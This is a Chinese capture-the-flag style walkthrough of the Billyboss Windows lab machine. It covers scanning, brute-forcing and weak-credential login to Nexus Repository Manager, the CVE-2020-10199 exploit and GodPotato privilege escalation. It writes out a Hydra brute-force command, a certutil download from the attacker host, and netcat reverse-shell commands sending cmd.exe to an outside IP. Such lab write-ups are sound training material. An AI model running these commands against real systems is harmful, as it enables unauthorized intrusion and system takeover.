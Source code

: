 ```yaml
---
description: Windows / 中等难度 / Nexus Repository Manager OSS 3.21.0-05
---
```


# ✔️ Billyboss

## 建立立足点

### 信息枚举

* 使用Nmap针对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA billyboss 192.168.250.61
```

<figure><img src="../.gitbook/assets/Snipaste_2024-06-22_14-02-58.png" alt=""><figcaption></figcaption></figure>

* 同时也可直接尝试看看目标系统是否有web页面，本例的80端口正运行着一个叫BaGet的应用程序，可做一些常规的信息收集：

<figure><img src="../.gitbook/assets/Snipaste_2024-06-22_14-01-00.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Snipaste_2024-06-22_14-01-28.png" alt=""><figcaption></figcaption></figure>

* 通过Nmap的扫描结果，发现目标还有一个8081的开放端口，也正在运行着HTTP服务，依次查看相关网页内容，确定当前正运行的是Nexus Repository Manager OSS 3.21.0-05的应用程序：

<figure><img src="../.gitbook/assets/4 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/5 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/6 (4).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch扫描一下该端口上还有没有其他的隐藏目录/文件：

<figure><img src="../.gitbook/assets/7 (5).png" alt=""><figcaption></figcaption></figure>

* 发现一个/swagger-ui，看它大小不抱什么希望，果然没什么东西：

<figure><img src="../.gitbook/assets/8 (5).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 因为此时已经获得了应用程序的版本号，查阅公开漏洞库发现了可能可以利用的漏洞脚本：

<figure><img src="../.gitbook/assets/10 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 阅读该脚本后，发现几个需要修改的地方：

<figure><img src="../.gitbook/assets/11 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 但是在之前的信息枚举的过程中完全没有发现任何可利用用户凭证信息，所以决定使用Hydra进行爆破：

1. 先用BurpSuite拦截一下POST表单查看路径和用户名、密码处的格式：

<figure><img src="../.gitbook/assets/12 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

2. 用户名密码处用Base64编码了，在构造hydra命令时应注意用:username=<mark style="color:red;">**^USER64^**</mark>spassw0rd=<mark style="color:red;">**^PASS64^**</mark>：

```bash
# 使用Hydra的爆破时间实在是太长，需要准备一些更好的username和password字典文件
hydra -L /usr/share/secLists/Usernames/Names/names.txt -P /usr/share/SecLists/Passwords/common-credentials/10k-most-common.txt
192.168.250.61 -s 8081 http-post-form '/service/rapture/session:username=^USER64^spassw0rd=^PASS64^:Forbidden‘
```

* 因考虑到Hydra爆破耗时漫长，所以与此同时决定猜测弱口令，简单猜测几次后发现了有效凭证_<mark style="color:red;">**nexus:nexus  😄**</mark>_

<figure><img src="../.gitbook/assets/13 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 此时已具备了可以修改漏洞脚本的基本项，但是还需要上传一个nc.exe程序，用于后续执行一个反弹shell回来：

<figure><img src="../.gitbook/assets/15 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在Kali机器的对应目录下，存放一个nc64.exe脚本并开启一个简单的服务器：

<figure><img src="../.gitbook/assets/16 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* nc64.exe程序上传成功：

<figure><img src="../.gitbook/assets/17 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/18 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 此时，可再次修改脚本内容，用于执行反弹shell回连到Kali机器上：

<figure><img src="../.gitbook/assets/19 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 但是返回后的信息显示了一个错误信息，我设置的命令被嵌套在好几个函数中：

<figure><img src="../.gitbook/assets/20 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用反斜杠逃逸：

```bash
.\\\\nc64.exe 192.168.45.158 4444 -e cmd.exe
```

<figure><img src="../.gitbook/assets/21 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 监听端口接收到了回连的shell，此时getshell并获得了flag：

<figure><img src="../.gitbook/assets/22 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/23 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本机信息枚举

* 先手工进行简单的信息收集：

<figure><img src="../.gitbook/assets/24 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/25 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 本例中决定使用提权工具GodPotato，但是得先确定目标系统的.NET框架的版本号，得知为4.0版本：

```powershell
reg query "HKEY_L0CAL_MACHINE\S0FTWARE\Microsoft\NET Framework Setup\NDP"
```

<figure><img src="../.gitbook/assets/26 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 下载GodPotato-NET4.exe，然后将工具传到目标系统中：

<figure><img src="../.gitbook/assets/27 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
certutil -split -f -urlcache http://192.168.45.158/GodPotato-NET4.exe
```

<figure><img src="../.gitbook/assets/28 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 上传成功后，执行一下GodPotato-NET4.exe程序，看看是否可以成功执行：

<figure><img src="../.gitbook/assets/29 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 此时，将GodPotato-NET4.exe程序的\`-cmd\`参数的值修改为调用刚才上传的nc64.exe程序以执行一个反弹shell回连至Kali本机中：

```powershell
.\GodPotato-NEr4.exe -cmd "C:\Users\nathan\Nexus\nexus-3.21.0-05\nc64.exe 192.168.45.158 8888 -e cmd.exe"
```

<figure><img src="../.gitbook/assets/30 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获得ROOT flag：

<figure><img src="../.gitbook/assets/31 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例算中等偏难的机器，锁定可利用的漏洞和提权时都不难，但是其实现过程中需要根据实际情况进行修改和变通。

CVE-2020-10199
{% endhint %}
